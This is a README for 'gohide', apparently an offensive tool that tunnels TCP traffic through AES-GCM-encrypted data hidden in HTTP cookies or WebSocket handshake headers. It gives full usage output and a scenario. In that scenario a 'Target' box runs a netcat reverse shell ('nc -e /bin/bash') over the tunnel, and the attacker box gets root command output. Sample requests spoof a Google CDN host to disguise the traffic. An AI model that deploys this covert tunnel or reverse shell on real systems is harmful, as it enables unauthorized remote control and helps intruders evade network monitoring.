 # gohide 

Tunnel TCP port to port traffic via an obfuscated channel with AES-GCM encryption. 

**Obfuscation Modes**
- Session Cookie HTTP GET (http-client)
- Set-Cookie Session Cookie HTTP/2 200 OK (http-server) 
- WebSocket Handshake "Sec-WebSocket-Key" (websocket-client)
- WebSocket Handshake "Sec-WebSocket-Accept" (websocket-server)
- No obfuscation, just use AES-GCM encrypted messages (none)

AES-GCM is enabled by default for each of the options above. 

**Usage**
```
root@WOPR-KALI:/opt/gohide# ./gohide -h
Usage of ./gohide:
  -f string
    	listen fake server -r x.x.x.x:xxxx (ip/domain:port) (default "0.0.0.0:8081")
  -k openssl passwd -1 -salt ok | md5sum
    	aes encryption secret: run with '-k openssl passwd -1 -salt ok | md5sum' to derive key from password without exposing to command line (default "5fe10ae58c5ad02a6113305f4e702d07")
  -l string
    	listen port forward -l x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:8080")
  -m string
    	obfuscation mode (AES encrypted by default): websocket-client, websocket-server, http-client, http-server, none (default "none")
  -r string
    	forward to remote fake server -r x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:9999")
```

**Scenario**

Box A - Reverse Handler.

```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:8081 -l 127.0.0.1:8080 -r 127.0.0.1:9091 -m websocket-client
Local Port Forward Listening: 127.0.0.1:8080
FakeSrv Listening: 0.0.0.0:8081
```
Box B - Target.
```
root@WOPR-KALI:/opt/gohide -f 0.0.0.0:9091 -r 127.0.0.1:8081 -l 127.0.0.1:9090 -m websocket-server
Local Port Forward Listening: 127.0.0.1:9090
FakeSrv Listening: 0.0.0.0:9091

```
Box B - Netcat /bin/bash

```
root@WOPR-KALI:/var/tmp# nc -e /bin/bash 127.0.0.1 9090

```
Box A - Netcat client
```
root@WOPR-KALI:/opt/gohide# nc -v 127.0.0.1 8080
localhost [127.0.0.1] 8080 (http-alt) open
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
netstat -pantwu 
Active Internet connections (servers and established)
tcp        0      0 127.0.0.1:39684         127.0.0.1:8081          ESTABLISHED 14334/./gohide      

**Obfuscation sample**

```
websocket-client (Box A to Box B)
- Sec-WebSocket-Key contains AES-GCM encrypted content e.g. "uname -a".
```
GET /news/api/latest HTTP/1.1
Host: cdn-tb0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: 6jZS+0Wg1IP3n33RievbomIuvh5ZdNMPjVowXm62
Sec-WebSocket-Version: 13
```

websocket-server (Box B to Box A)
- Sec-WebSocket-Accept contains AES-GCM encrypted output.
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: URrP5l0Z3NIHXi+isjuIyTSKfoP60Vw5d2gqcmI=
```



Enjoy~
